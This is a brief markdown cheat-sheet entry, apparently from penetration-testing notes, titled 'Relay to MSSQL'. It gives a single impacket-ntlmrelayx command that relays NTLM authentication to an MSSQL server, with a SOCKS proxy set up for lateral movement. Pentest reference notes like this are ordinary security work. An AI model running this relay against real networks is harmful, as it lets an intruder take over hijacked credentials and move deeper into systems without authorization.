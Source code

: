 # Relay to MSSQL

## Tools: impacket-ntlmrelayx

    impacket-ntlmrelayx -t mssql://IP -smb2support -socks (Lateral Movement (socks))
